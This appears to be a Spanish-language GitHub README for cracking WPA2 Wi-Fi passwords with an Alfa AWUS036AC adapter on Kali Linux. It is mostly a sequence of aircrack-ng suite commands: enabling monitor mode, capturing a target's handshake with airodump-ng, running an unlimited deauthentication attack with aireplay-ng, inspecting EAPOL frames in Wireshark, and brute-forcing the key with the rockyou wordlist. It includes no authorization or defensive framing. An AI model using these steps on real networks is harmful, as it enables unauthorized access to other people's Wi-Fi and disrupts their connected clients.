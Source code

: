 # Alfa AWUS036AC
    
   Cracking WPA2


### WiFi Passwords

  ![](mafia_color.gif)
  
## Requisitos

Antes de nada, deberíamos de instalar los drivers necesarios de la antena ya que sin ellos no podremos usar el modo monitor.
En este caso he usado el diccionario Rockyou que viene preinstalado en kali linux.




# How To



## Comandos Utilizados:
    
   Ver versión del sistema:
        
       cat /etc/os-release
       
       uname -a
   
   Ver interfaces:
   
       iwconfig
   
   Matar procesos:
    
       sudo airmon-ng check kill

   Iniciar modo monitor:
   
       sudo airmon-ng start wlan0
       
   Verificar que modo está en uso:
   
       sudo airmon-ng
       iwconfig
   
   Obtener dirección MAC y el canal del AP:
   
       sudo airodump-ng wlan0
       sudo airodump-ng -w hack1 -c 2 --bssid 00:00:00:00:00:00 wlan0 
    
   2nd Window - deauth attack:
   
       sudo aireplay-ng --deauth 0 -a 00:00:00:00:00:00 wlan0
   
   Abrir Wireshark para analizar el archivo capturado:
   
       wireshark hack1-01.cap
   
   Filtro de mensajes usado en wireshark:
   
       eapol
   
   Stop modo monitor:
   
       airmon-ng stop wlan0

   Cambiar canal:
   
       sudo airmon-ng wlan0 channel X

   Fuerza bruta:
   
       sudo aircrack-ng capture1-01.cap -w /usr/share/wordlists/rockyou.txt


![](Imagen1.png)

